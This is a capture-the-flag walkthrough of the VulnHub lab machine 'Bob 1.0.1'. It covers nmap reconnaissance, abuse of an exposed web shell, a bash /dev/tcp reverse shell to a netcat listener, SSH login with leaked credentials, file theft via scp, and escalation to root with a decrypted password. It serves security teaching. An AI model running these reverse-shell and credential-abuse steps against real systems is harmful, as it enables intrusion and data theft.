Bob 1.0.1 (Source: [https://www.vulnhub.com/entry/bob-101,226/](https://www.vulnhub.com/entry/bob-101,226/))

First things first, we must find out what our target machine's IP address is.

    nmap -sn 192.168.240.0/24

        -sn     -->     Skips port discovery

        ..0/24  -->     Scans the entire subnet



    192.168.240.1   -->     Virtual Router/Gateway    

    192.168.240.2   -->     DHCP Server

    192.168.240.21  -->     Target Machine

    192.168.240.3   -->     Attacker Machine (Kali)

Now that we know the target machine's IP address is 192.168.240.21, we can use this command to find out more about it.

    nmap -p- -sVC 192.168.240.21 -oN results.txt

        -p-     -->     Scans all 65535 ports

        -sVC    -->     Enables service version detection and runs default Nmap scripts

        -oN     -->     Saves the output to a file called 'results.txt' (for future reference if necessary)



From the picture above, we can see that this machine has 80/tcp (HTTP, unencrypted) and 25468/tcp (SSH in this case) running. The special port also forces us to specify the port when connecting through SSH, since it automatically defaults to port 22, and the connection will be refused if port 22 isn't open.

Let's check out the website before touching SSH.



In the file 'contact.html', we can see a bunch of names. We should not forget about them just in case they become relevant later.

When I checked out the news.html file and inspected the site's HTML, I found this Base64-encoded string.

    SW4gb3RoZXIgbmV3cyBzb21lIGR1bWJhc3MgbWFkZSBhIGZpbGUgY2FsbGVkIHBhc3N3b3Jkcy5odG1sLCBjb21wbGV0ZWx5IGJyYWluZGVhZA0KDQotQm9i

After decoding it, it said:

    "In other news, some dumbass made a file called passwords.html, completely braindead

    -Bob"

I took a look at it. It was just HTML code, and I found nothing helpful.

If we take a look at the robots.txt file,



we can see a couple of interesting files.

I checked these files out one by one.

    login.php       -->     Returned 404

    dev_shell.php   -->     See the picture below

    lat_memo.html   -->     Points the reader to a shell. The link is shared through an email from Bob.

    passwords.html  -->     Just a joke note.

From the picture below, we can see a web shell. I'm certain that this (dev_shell.php) is the shell Bob was talking about in (lat_memo.html).



I tried a few commands such as 'pwd' and 'ls', but the site just returned 'Get out skid lol'.

After trying 'whoami' and 'id', I learned that we were running as www-data, which is just a low-privilege web user.

We can try to use this shell to connect back to a listener on our machine. To set up a listener, we will use:

    nc -lnvp 10000

And to connect back to our machine, we'll use:

    bash -c 'bash -i >& /dev/tcp/192.168.240.3/10000 0>&1'



The highlighted commands are used to upgrade the shell.

Now that we're in the system, we can explore it further.

I found a file called '.hint'. You can view its contents below.



I found 4 users in the home directory.



I decided to explore each directory one after the other, starting with 'bob'.



From the picture above, you can see a hidden file called '.old_passwordfile.html'. It leaks the credentials for the users 'jc' and 'seb'. We can use those to log into their accounts through SSH. I'm going to go with 'jc'.

    ssh jc@192.168.240.21 -p 25468

    Password: Qwerty

I wasn't finished exploring Bob's home directory, so I went back. Alongside a GPG-encrypted file called login.txt.gpg, I found a shell script called 'notes.sh' in /home/bob/Documents/Secret/Keep_Out/Not_Porn/No_Lookie_In_Here.

You can download files over SSH by using SCP:

    scp -P 25468 jc@192.168.240.21:/home/bob/Documents/login.txt.gpg .

You can see the post-execution output below.



At first, it didn't make any sense. But then I remembered how the author talked about looking for secret messages on the VM's VulnHub page. When combining all the first letters of each line, you get 'HARPOCRATES'. After some research, I found out that Harpocrates is the Greek god of silence, secrets, and confidentiality.

I thought that 'HARPOCRATES' might have been the passphrase for the encrypted file.

So I tried it.



And it worked. I immediately tried:

    su root

    Password: b0bcat_

And that worked as well!

The author specified that the flag is in /. So I had to switch directories.



Now we just need to view its contents.


